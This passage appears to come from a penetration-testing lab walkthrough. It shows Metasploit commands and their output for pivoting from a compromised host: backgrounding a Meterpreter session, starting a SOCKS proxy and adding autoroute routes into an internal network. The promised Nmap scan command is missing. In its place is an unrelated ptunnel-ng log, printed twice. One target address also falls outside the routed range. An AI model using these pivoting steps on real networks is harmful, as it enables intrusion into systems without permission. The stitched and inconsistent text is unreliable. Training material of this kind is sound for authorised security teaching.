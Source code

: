 Thereafter, students need to set up the `auxiliary/server/socks_proxy` module to configure a local proxy on `Pwnbox`/`PMVPN`. Still, first, students need to background the current `Meterpreter` session and then proceed to use and set the options of `socks_proxy`:

Code: shell

```shell
bg
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run
```

```
(Meterpreter 1)(/home/webadmin) > bg

[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use auxiliary/server/socks_proxy
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set SRVPORT 9050
SRVPORT => 9050
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set VERSION 4a
VERSION => 4a
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

Once the `SOCKS proxy` server has started, students need to attach back to session 1 and then use `autoroute` to add routes to the `172.16.5.0/16` network:

Code: shell

```shell
sessions -i 1
run autoroute -s 172.16.5.0/16
```

```
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/home/webadmin) > run autoroute -s 172.16.5.0/16
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.0.0...
[+] Added route to 172.16.5.0/255.255.0.0 via 10.129.201.127
[*] Use the -p option to list all active routes
```

Once the route has been added from `Pwnbox`/`PMVPN`, students need to enumerate `172.15.5.25` using `Nmap` through `proxychains`:

Code: shell


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.